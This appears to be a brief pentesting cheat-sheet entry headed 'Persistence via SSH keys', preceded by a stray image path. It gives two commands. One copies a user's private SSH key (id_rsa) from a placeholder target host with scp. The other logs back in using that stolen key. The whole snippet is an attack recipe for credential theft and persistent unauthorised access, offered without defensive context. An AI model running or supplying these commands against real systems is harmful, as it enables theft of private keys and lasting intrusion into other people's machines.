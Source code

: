 # Persistence via SSH keys

# Download ssh key of target system

```text
:~# scp <name>@<target-ip>:~/.ssh/id_rsa /home/kali/
```

## Testing ssh key

```text
:~# ssh -i id_rsa <name>@<target-ip>
```